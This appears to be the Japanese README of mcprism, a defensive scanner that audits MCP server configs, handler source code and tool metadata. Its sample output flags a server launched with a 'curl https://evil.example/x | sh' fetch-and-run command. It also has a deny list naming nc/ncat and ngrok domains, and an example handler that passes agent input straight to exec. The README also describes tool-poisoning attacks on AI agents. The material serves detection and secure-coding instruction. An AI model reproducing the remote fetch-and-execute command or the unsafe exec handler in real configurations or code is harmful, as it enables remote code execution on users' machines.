








<div align="center">

<p><a href="README.md">English</a> · <a href="README.zh-CN.md">简体中文</a> · 日本語 · <a href="README.ko-KR.md">한국어</a> · <a href="README.fr-FR.md">Français</a> · <a href="README.de-DE.md">Deutsch</a> · <a href="README.es-ES.md">Español</a> · <a href="README.ru-RU.md">Русский</a> · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**AI が信頼する前に、MCP サーバーを審査しましょう。**

mcprism は [Model Context Protocol](https://modelcontextprotocol.io/) サーバー向けのセキュリティスキャナーです。サーバーを 3 つの角度から確認します。

1. **設定** — クライアントがどのように起動・接続するか。バージョン固定されたパッケージ、平文通信、設定内の認証情報、クラウドメタデータやプライベートネットワークへの接続を確認します。
2. **ソースコード** — 実装が手元にある場合、JS/TS/Python/Go のツールハンドラーを読み、エージェントが制御できる引数を危険なシンクまで追跡します。プロセス実行、外部リクエスト（SSRF）、ファイルシステムパスに加え、eval、安全でないデシリアライズ、ハードコードされたシークレットを検出します。
3. **ランタイム** — MCP ハンドシェイクを行い、ツール、リソース、プロンプトを一覧表示し、ツールメタデータのポイズニングを確認します。ツールを呼び出すことはありません。

すべてのサーバーには検出項目の一覧、0〜100 のスコア、A〜F のグレードが付きます。mcprism は 1 つの Go バイナリとして配布され、実行時の依存はなく、完全にオフラインで動作し、副作用もありません。

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP は AI エージェントを外部サーバーに接続し、ツール、ファイル、データを利用できるようにします。このプロトコルは Claude Desktop と Claude Code、Cursor、VS Code、Windsurf などに組み込まれているため、通常の環境ではすぐに複数のサーバーに接続します。これらのサーバーはコマンドを実行し、ファイルシステムを読み、あなたのプロンプトを見ることができます。悪意のある、または過剰な権限を持つサーバーは、認証情報を盗み、コマンドを実行し、返すテキストを通じてエージェントを誘導する可能性があります。mcprism は、エージェントに使わせる前にサーバーごとのレポートとスコアを提供します。イメージに対して `trivy` を実行するようなものです。

<p align="center">
  
</p>

## 2 行でクイックスタート

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## 1 行でサーバーを審査

設定に追加することなく、起動コマンド、URL、パッケージ、または手元のコードを確認します。

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # ソースツリーを審査
mcprism vet server.py            # 1 ファイルを審査
```

`vet` はデフォルトで静的解析のみを行い、対象を実行しません。`--probe` を付けると起動してツール、リソース、プロンプトを列挙します。ソースツリーやファイルは以下の SAST エンジンで処理され、ネットワークは不要です。

<p align="center">
  
</p>

## 目次

- [変更履歴](CHANGELOG.md)
- [攻撃面の解説](docs/MCP-ATTACK-SURFACE.md)
- [ローンチキット](docs/LAUNCH-KIT.md)
- [できること](#できること)
- [利用シーン](#利用シーン)
- [レポート](#レポート)
- [インストール](#インストール)
- [クイックスタート](#クイックスタート)
- [出力例](#出力例)
- [ポリシー・アズ・コード](#ポリシーアズコード)
- [ソースコードレビュー（SAST）](#ソースコードレビューsast)
- [検出内容](#検出内容)
- [出力フォーマット](#出力フォーマット)
- [対応クライアントとトランスポート](#対応クライアントとトランスポート)
- [CI/CD](#cicd)
- [仕組み](#仕組み)
- [比較](#比較)
- [よくある質問](#よくある質問)
- [ロードマップ](#ロードマップ)
- [コントリビュート](#コントリビュート)

## できること

- 1 つのバイナリ。Python や Node のセットアップ、LLM API キー、アカウントは不要です。
- 静的・ソース・ライブ解析。設定を読み、コードがある場合は JS/TS/Python/Go ソースをレビューし、MCP ハンドシェイクを行ってツール、リソース、プロンプトを列挙します。ツールを呼び出すことはありません。
- ポリシー・アズ・コード。ルールのオン/オフ、重要度の変更、パッケージ・コマンド・ドメインの許可/拒否、ネットワーク分離の要求ができます。組み込みプロファイルには `default`、`strict`、`ci` のベースラインがあります。
- リスク許容レジスタ。理由と期限を付けて検出項目を抑制できます。抑制された項目はレポートに表示され続け、期限が切れると再び報告されます。
- 決定論的でオフライン。33 のルールが OWASP MCP01〜MCP07 にマップされ、データがマシンの外に出ることはありません。
- 人とマシン向けのレポート：table、JSON、Markdown、HTML、SARIF、JUnit XML、CycloneDX SBOM、CSV。
- 複数の対象を一度にスキャン：ファイル、ディレクトリ（再帰）、URL。

## 利用シーン

- MCP サーバーをインストール済みで、エージェントが実行する前にアクセス範囲を知りたい。`mcprism scan` を実行してください。
- チームでサーバー群を共有し、文書化されたベースラインが欲しい。`policy.yml` をバージョン管理し、本番マシンで `--profile strict` を実行してください。
- CI で変更をレビューしたい。`mcprism scan --profile ci` を実行すると high 以上でビルドを失敗させ、SARIF をコードスキャンに公開できます。

## レポート

<p align="center">
  
</p>

多数のサーバーを一括レビュー（静的モード）：

<p align="center">
  
</p>

## インストール

```sh
# ワンラインインストーラ（Linux / macOS / Windows の Git Bash）
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

または[リリース](https://github.com/HUA503/mcprism/releases)ページからバイナリをダウンロードしてください（Linux/macOS/Windows、amd64 と arm64）。Homebrew、Scoop、Nix はロードマップにあります。

## クイックスタート

```sh
# Claude Desktop、Claude Code、Cursor、VS Code などの設定を自動検出
mcprism scan

# 特定の設定ファイル
mcprism scan ~/.claude.json

# ディレクトリを再帰的にスキャン
mcprism scan ./configs

# リモートサーバー
mcprism scan https://mcp.example.com/v1

# 複数の対象をまとめて
mcprism scan a.json b.json ./configs

# 完全オフライン / 静的のみ（プロセスを起動せず、接続もしない）
mcprism scan mcp.json --no-dynamic

# ベースラインやカスタムポリシーを適用
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# 対話型ターミナル UI
mcprism scan -i

# 設定を書かずに起動コマンド / URL / パッケージを審査
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # 実際に起動してツールを一覧

# 参考情報
mcprism inspect mcp.json     # サーバーのツール/リソース/プロンプトを一覧
mcprism rules                # 組み込みルールを一覧
mcprism profiles             # 組み込みプロファイルを一覧
```

### フラグ

| フラグ | 説明 |
|---|---|
| `-f, --format` | `table`（既定） · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | レポートをファイルに書き出す |
| `-p, --policy` | ポリシー YAML ファイルのパス |
| `--profile` | 組み込みプロファイル：`default` · `strict` · `ci` |
| `--suppressions` | 抑制 YAML ファイルのパス |
| `--no-dynamic` | 静的解析のみ。プロセスを起動せず接続もしない |
| `--fail-on` | `critical` / `high` / `medium` / `low` で非ゼロ終了 |
| `--timeout` | サーバーごとのハンドシェイクタイムアウト（既定 `10s`） |
| `-i, --interactive` | TUI で検出項目を閲覧 |
| `--transport` | URL に対して `http`（Streamable HTTP）または `sse`（旧版）を強制 |
| `--probe`（`vet`） | 実際に起動/接続してツールを列挙。対象を実行するためサンドボックス推奨 |

## 出力例

静的モードで 2 つのローカルサーバーをスキャン：

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

HTML と SARIF 形式では証拠、修正アドバイス、OWASP マッピングが追加されます。

## ポリシーアズコード

ポリシーファイルはバージョン付きの YAML ドキュメントです。合格/不合格の条件を設定し、個別ルールを上書きし、許可/拒否するパッケージ・コマンド・ドメインを列挙し、ファイルやシェルアクセスを持つサーバーが外部へ通信しないよう要求できます。

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

deny に一致すると `MCP700` として報告され、分離下でネットワークアクセスを持つファイル/シェルサーバーは `MCP701` として報告されます。[`examples/policy.yml`](examples/policy.yml)、[`examples/suppressions.yml`](examples/suppressions.yml)、[ポリシーガイド](docs/POLICIES.md)を参照してください。コンプライアンスゲートと機械可読出力については [docs/COMPLIANCE.md](docs/COMPLIANCE.md) をご覧ください。

## ソースコードレビュー（SAST）

設定はサーバーの起動方法を示すもので、ハンドラーが引数で何をするかまでは示しません。設定では問題なさそうなサーバーでも、ツールパラメータをそのままシェルに渡したり、リクエスト URL として使ったり、それを元にパスを開くことがあります。これらの不具合は実装の中にあるため、mcprism はコードを読みます。

`vet` をチェックアウト先や単一ファイルに向けてください。ビルド手順、インストール済みの依存、ネットワークは不要です。

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

一般的な SDK とフレームワークを認識します。

- JavaScript/TypeScript：`@modelcontextprotocol/sdk` の `McpServer`、低レベルの `Server.setRequestHandler`、各種 `.tool(...)` 登録。
- Python：`FastMCP` の `@mcp.tool()` デコレータ、低レベルの `call_tool` ハンドラー。

各ツールについてハンドラー引数を攻撃者が制御するデータとして扱い、シンクまで 1 ホップ追跡します。検出項目にはファイルと行番号が示され、コードを表示し、修正方法を説明します。

| ルール | シンク | 既定 |
|---|---|---|
| MCP801 | ツール入力がプロセス/コマンドシンクに到達（`exec`、`spawn`、`os.system`、`subprocess shell=True`） | critical |
| MCP802 | ツール入力がリクエスト URL を制御（`fetch`、`requests`、`httpx`）— SSRF | high |
| MCP803 | ツール入力が制限なしにファイルシステムパスとして使われる | high |
| MCP804 | 動的コード実行（`eval`、`Function`、`exec`） | high |
| MCP805 | 安全でないデシリアライズ（`pickle`、`marshal`、`yaml.load`） | high |
| MCP806 | ソース内にハードコードされた認証情報 | high |

誤検出を減らすため、一般的な安全パターンを認識し、それらがある場合は報告しません。

- 固定コマンドと配列で渡された引数（`execFile(cmd, args)`、`subprocess.run([...])`）。シェル文字列ではなく。
- パスの制限：`path.resolve(base, name)` を `startsWith(base)` で確認、Python では `realpath` + `startswith`。
- エージェントがホストを選ぶのではなく固定のベース URL、さらに `yaml.safe_load` / `SafeLoader`。

次のハンドラーはエージェントがコマンドを制御できるため MCP801 が付きます。

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

修正版は許可リストを使い、シェルを実行しません。

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

エンジンはパターンベースで 1 レベルの taint 追跡を行い、サードパーティのパーサーを使わないため、バイナリは小さく自己完結しています。完全なデータフロー解析ツールが捉えるすべてを検出できるわけではなく、ほとんどの MCP サーバーの不具合にある短く直接的なハンドラーからシンクへのパスを対象としています。ルールの詳細とその他の例は [docs/SAST.md](docs/SAST.md) にあります。

<p align="center">
  
</p>

## 検出内容

- 設定内のシークレット。認識できる認証情報の形式（AWS、Google、GitHub、Slack、Stripe、GitLab、OpenAI、JWT など）を種類ごとに示し、生成されたキーに見える高エントロピーの値を疑わしいシークレットとして報告します。プレースホルダーや `${ENV_VAR}` 参照は報告しません。
- 平文通信と無効化された TLS（`http://`、`NODE_TLS_REJECT_UNAUTHORIZED=0`）。
- 過剰な権限。`/` やホームディレクトリにマウントされたファイルシステムサーバー、オフにされたサンドボックスや権限チェック。
- ツールポイズニング。ツール名、説明、schema にある注入指示、零幅/双方向 Unicode、隠された HTML/Markdown、エンコードされた塊。
- 危険な能力の組み合わせ。シェル + ネットワーク、ファイル読み取り + ネットワーク、ファイル書き込み + シェルなど。
- ネットワーク対象。クラウドメタデータエンドポイント（`169.254.169.254`）やプライベート/ループバック範囲。
- サプライチェーンリスク：バージョン未固定のパッケージ、タイポスクワット、リモート URL から直接実行されるコード。
- ポリシー違反：拒否されたパッケージ・コマンド・ドメイン、ネットワーク分離の不備。
- JS/TS/Python/Go ハンドラーのソースコード上の欠陥：コマンド、ネットワーク、ファイルシンクに到達するツール引数、eval/exec、安全でないデシリアライズ、ハードコードされたシークレット。[ソースコードレビュー](#ソースコードレビューsast)を参照。
- サーバー間のツール名の衝突、分類された接続失敗（DNS / TLS / 接続拒否 / タイムアウト / コマンドなし）。

完全な一覧と OWASP 対照は [docs/RULES.md](docs/RULES.md) にあります。

## 出力フォーマット

| フォーマット | 主な用途 |
|---|---|
| `table` | ターミナル出力 |
| `json` | カスタムツール |
| `sarif` | GitHub コードスキャン |
| `md` | Markdown レポート / チケット |
| `html` | 共有可能な単体レポート |
| `junit` | Jenkins、GitLab、GitHub のテストレポート |
| `cyclonedx` | SBOM / 脆弱性取り込み |
| `csv` | スプレッドシートや GRC ワークフロー |

## 対応クライアントとトランスポート

mcprism は Claude Desktop、Claude Code、Cursor、VS Code（GitHub Copilot Chat）、Windsurf、Cline、Continue などが使う JSON/JSONC MCP 設定を読み取り、`mcpServers` オブジェクトと配列の両形式に対応します。3 種類すべての MCP トランスポート（stdio、Streamable HTTP、旧 HTTP+SSE）をサポートします。

## CI/CD

`ci` プロファイルでパイプライン内の危険なサーバーをブロック：

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --no-dynamic --profile ci
```

SARIF で GitHub コードスキャンに公開：

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

JUnit 出力は Jenkins や GitLab のテストレポート手順で使え、CycloneDX 出力は SBOM や脆弱性トラッカーに渡せます。

## 仕組み



mcprism は能力を列挙するだけなので、解析に副作用はありません。同梱のデモサーバー（`examples/testserver`）は危険な動作をシミュレートするだけで実際には実行しません。パッケージ構成とデータフローは [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) に記載しています。

## 比較

公開されたプロジェクトの説明に基づきます（機能は変わる可能性があります）：

| | **mcprism** | mcp-scan | mcp-audit | 人手によるレビュー |
|---|---|---|---|---|
| 言語 / ランタイム | Go、単一バイナリ | Python | Python/Node | — |
| インストール/実行時依存ゼロ | ✅ | ❌ | ❌ | — |
| 静的設定レビュー | ✅ | ✅ | 部分的 | ❌ |
| ライブ能力の列挙 | ✅ | 部分的 | 部分的 | ❌ |
| ソースコード SAST（ハンドラーからシンクの taint） | ✅ | ❌ | ❌ | ❌ |
| ツールポイズニング検出 | ✅ | ✅ | 部分的 | ❌ |
| 能力組み合わせのモデル化 | ✅ | ❌ | ❌ | ❌ |
| ポリシー・アズ・コード（許可/拒否/分離） | ✅ | ❌ | ❌ | ❌ |
| JUnit / CycloneDX / CSV 出力 | ✅ | ❌ | ❌ | ❌ |
| 再帰・複数対象スキャン | ✅ | 部分的 | ❌ | ❌ |
| SARIF + CI 終了コード | ✅ | ✅ | ❌ | ❌ |
| 完全オフライン、LLM 不使用 | ✅ | ✅ | 部分的 | ✅ |
| クロスプラットフォーム | ✅ | 部分的 | 部分的 | — |

## よくある質問

**mcprism はツールを呼び出しますか？**
いいえ。MCP の初期化と一覧取得のみを行います。ツールを呼び出さず、サーバー経由でファイルを開かず、プロンプトも送信しません。

**データをどこかに送信しますか？**
いいえ。ルールはローカルで実行され、テレメトリもありません。ライブスキャンはハンドシェイクのために指定したサーバーと通信するだけで、`--no-dynamic` を付ければそれも行いません。

**mcp-scan や mcp-audit との違いは？**
後者は Python や Node で動き、設定やポイズニングに焦点を当てています。mcprism は Go の単一バイナリで、能力の組み合わせをモデル化し、ポリシー・アズ・コードを実行し、SARIF に加え JUnit、CycloneDX、CSV を出力します。[比較表](#比較)を参照してください。

**自分の環境では誤検出です。どうすれば？**
可能なら根本原因を修正し、それが難しければ理由と期限を付けて抑制してください。抑制された項目は表示され続け、期限が切れると再び報告されます。[docs/POLICIES.md](docs/POLICIES.md) を参照。

**レポートがきれいならサーバーは安全ですか？**
いいえ。mcprism は既知で観測可能なリスクを報告するもので、サーバーが安全であることを証明できません。信頼できるサーバーだけを実行してください。

## ロードマップ

- [ ] MCP 仕様の進展に合わせてルールを追加し誤検出を減らす
- [ ] MCP レジストリ / マーケットプレイスのスキャン
- [ ] ポリシー上書きを超えたユーザー定義ルール
- [ ] pre-commit フックとエディタ連携
- [ ] Homebrew、Scoop、Nix パッケージ

## コントリビュート

Issue と PR を歓迎します。良いルール貢献は、信号が明確で決定論的、誤検出率の低いチェックです。`internal/rules` の下に追加し、OWASP MCP リスクにマップしてテストを含めてください。コード構成は [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) にあります。PR を開く前に `go vet ./... && go test ./...` を実行してください。

## ライセンス

[MIT](LICENSE) © mcprism contributors.

mcprism は防御ツールです。リスクを報告するもので、サーバーが安全であることを証明できず、レポートがきれいでも、よく分からないサーバーを信頼する理由にはなりません。
